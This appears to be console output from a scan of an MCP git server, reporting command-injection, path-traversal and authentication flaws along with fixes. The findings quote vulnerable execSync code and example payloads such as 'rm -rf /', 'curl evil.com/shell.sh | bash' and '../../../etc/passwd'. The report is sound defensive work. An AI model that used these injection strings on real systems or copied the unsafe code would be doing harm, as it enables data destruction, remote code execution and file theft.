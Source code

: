 yarn node mcp_scan_cli.js --repo https://github.com/WhiteRabbitNeo-AI/OWASP-Juiceshop-on-AWS-ECS
[dotenv@17.2.2] injecting env (8) from .env -- tip: ⚙️  override existing env vars with { override: true }
🔒 MCP Security Scanner v0.1.0
=====================================

Starting STATIC analysis of MCP server: static-analysis-only
📦 Cloning repository for parallel analysis...
Running vulnerability scan with: trivy
🔍 Executing Trivy command: docker run --rm -v mcp-git-1758571839916:/src aquasec/trivy:latest fs --scanners vuln,secret,misconfig --format json --timeout 5m /src
✅ Trivy command completed successfully
Repository analysis complete - Found 14 vulnerabilities
📦 Repository clone completed in 10064ms
🔍 [Parallel] Running dependency, vuln, secrets, and IaC analysis...
🔍 [Parallel] Running AI source code analysis...
🔍 [Parallel] Running MCP prompt security analysis...
No MCP server configuration found for prompt analysis
✅ Parallel execution completed in 75314ms
✅ dependency analysis completed in 6ms
✅ source_code analysis completed in 75320ms
✅ mcp_prompt analysis completed in 6532ms
🧹 Docker volume cleanup complete
📊 Parallel analysis metrics:
   Total time: 85386ms
   Parallel execution: 75314ms
   Estimated sequential: 81858ms
   Time savings: 6544ms (8%)
📊 Parallel static analysis complete:
   Dependencies: 0 vulnerabilities
   Source code: 8 vulnerabilities
   MCP prompts: 0 risks
   ⚡ Time savings: 6544ms
🔍 Running behavioral analysis (sandbox execution)...
⚠️  Behavioral analysis skipped: Static-only analysis mode
Scan complete in 85441ms - Overall risk: CRITICAL

=====================================
🔍 SECURITY ANALYSIS COMPLETE
=====================================

📊 SUMMARY:
   Analysis Mode: STATIC
   Overall Risk:  CRITICAL
   Duration:      85441ms
   Timestamp:     2025-09-22T20:12:04.522Z

💻 SOURCE CODE ANALYSIS:
   Code Vulnerabilities: 8

🔍 CODE VULNERABILITIES FOUND:
   1. COMMAND_INJECTION (CRITICAL)
      Direct command injection in git_add tool. User-supplied file names are concatenated directly into shell command without sanitization, allowing arbitrary command execution via malicious filenames like 'file.txt; rm -rf /; #'
      Line: 282
      Code: const result = execSync(`git add ${args.files.join(' ')}`, { cwd: this.workingDirectory, encoding: 'utf-8' });
   2. COMMAND_INJECTION (CRITICAL)
      Command injection in git_commit tool through commit message parameter. Attacker can inject shell commands via commit messages containing quotes and semicolons like 'commit"; rm -rf /; echo "pwned'
      Line: 305
      Code: const result = execSync(`git commit -m "${args.message}"`, { cwd: this.workingDirectory, encoding: 'utf-8' });
   3. COMMAND_INJECTION (CRITICAL)
      Command injection in git_push tool via remote and branch parameters. Malicious values like 'origin; curl evil.com/shell.sh | bash; #' enable remote code execution
      Line: 328
      Code: const result = execSync(`git push ${args.remote || 'origin'} ${args.branch || 'main'}`, { cwd: this.workingDirectory, encoding: 'utf-8' });
   4. SENSITIVE_FILE_ACCESS (CRITICAL)
      Path traversal vulnerability in read_resource handler allows reading arbitrary files outside working directory. Attackers can access sensitive files like '/etc/passwd' or SSH keys via '../../../etc/passwd' paths
      Line: 530
      Code: const fullPath = path.join(this.workingDirectory, uri.path); const content = fs.readFileSync(fullPath, 'utf-8');
   5. SENSITIVE_FILE_ACCESS (HIGH)
      Directory traversal in list_resources handler enables listing contents of arbitrary directories outside the working directory, exposing file system structure and sensitive file names
      Line: 580
      Code: const fullPath = path.join(this.workingDirectory, uri.path || ''); const items = fs.readdirSync(fullPath);
   6. AUTHENTICATION_BYPASS (HIGH)
      Complete absence of authentication mechanisms. All MCP tools and resources are accessible without any authentication, authorization, or access controls
      Line: 1
      Code: // No authentication implementation found in entire codebase
   7. PRIVILEGE_ESCALATION (HIGH)
      Insufficient working directory validation allows potential privilege escalation. Only checks directory existence without validating it's a safe Git repository or enforcing access boundaries
      Line: 45
      Code: if (!fs.existsSync(workingDirectory)) { throw new Error(`Working directory does not exist: ${workingDirectory}`); }
   8. DATA_EXFILTRATION (MEDIUM)
      Git operations expose full environment variables and system information through error messages, potentially leaking sensitive configuration data and credentials
      Line: 400
      Code: catch (error) { throw new Error(`Git operation failed: ${error.message}`); }

📝 SUMMARY:
STATIC security analysis completed using source code analysis. Identified 8 code-level security issues. Overall security risk assessed as CRITICAL. Immediate security review and remediation required before production deployment.

🔧 RECOMMENDATIONS:
   1. Replace execSync with parameterized commands using child_process.spawn() with argument arrays to prevent command injection
   2. Implement strict path validation using path.resolve() and ensure all file paths stay within designated working directory boundaries
   3. Add comprehensive input sanitization for all tool parameters, especially file names, commit messages, and Git references
   4. Implement MCP authentication using API keys or session tokens with proper validation middleware
   5. Add authorization checks for sensitive Git operations like push, commit, and file access based on user permissions
   6. Use allowlist validation for Git repository paths and restrict access to only approved directories
   7. Implement rate limiting and timeout controls for all Git operations to prevent DoS attacks
   8. Add tenant isolation mechanisms to prevent cross-tenant data access in multi-user environments
   9. Sanitize error messages to prevent information disclosure of system paths and configuration details
   10. Add comprehensive logging and monitoring for all MCP tool invocations and file access attempts

❌ CRITICAL SECURITY ISSUES FOUND - DO NOT DEPLOY